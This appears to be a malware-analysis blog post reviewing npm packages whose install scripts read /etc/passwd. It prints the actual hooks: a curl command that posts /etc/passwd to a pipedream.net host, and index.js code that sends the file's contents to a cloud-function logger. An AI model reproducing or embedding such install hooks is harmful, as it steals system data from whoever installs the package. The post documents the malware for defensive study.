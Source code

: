 ```yaml
---
title: "NPM malware results, Oct 4, 2023"
date: 2023-10-04T00:00:00-07:00
tags:
  - malware-analysis
  - javascript
  - npm
---
```


Reviewing pre- and postinstall scripts for NPM packages.

References to `passwd`:

| package                    | version | preinstall                                                                      | postinstall                                                               |
|----------------------------|---------|---------------------------------------------------------------------------------|---------------------------------------------------------------------------|
| cat-etc-passwd             | 1.0.2   |                                                                                 | `node index.js`                                                             |
| cat-etc-passwd             | 1.0.3   |                                                                                 | `node index.js`                                                             |
| cat-etc-passwd             | 1.0.4   |                                                                                 | `node index.js`                                                             |
| securisecidonothing        | 1.0.2   | `cat /etc/passwd`                                                                 |                                                                           |
| sophs-test-package         | 1.7.6   | `blah /etc/passwd blah`                                                           |                                                                           |
| peekatchuysharmlesspackage | 1.0.15  | `touch ../../evil`                                                                | `brave https://www.youtube.com/watch?v=dQw4w9WgXcQ?autplay=1 && cat /etc/…` |
| peekatchuysharmlesspackage | 1.0.16  | `touch ../../evil`                                                                | `brave https://www.youtube.com/watch?v=dQw4w9WgXcQ?autplay=1 && cat /etc/…` |
| peekatchuysharmlesspackage | 1.0.17  | `touch ../../evil`                                                                | `brave https://www.youtube.com/watch?v=dQw4w9WgXcQ?autplay=1 && cat /etc/…` |
| lenskart                   | 1.0.5   | `/usr/bin/curl --data '@/etc/passwd' $(hostname).eo2z7l1ydft6861.m.pipedream.net` |                                                                           |
| lenskart                   | 1.0.6   | `/usr/bin/curl --data '@/etc/passwd' $(hostname).eo2z7l1ydft6861.m.pipedream.net` |                                                                           |



## cat-etc-passwd@1.0.4

`/index.js`

```js
const { exec } = require('child_process');
const fetch = require('node-fetch');

exec('cat /etc/passwd', (error, stdout, stderr) => {
  if (error) {
    console.error(`exec error: ${error}`);
    return;
  }

  fetch('https://us-central1-xenon-shard-259622.cloudfunctions.net/http-request-logger', {
    method: 'POST',
    body: `
      stdout:

      ${stdout}

      stderr:

      ${stderr}
    `
  });
});
```
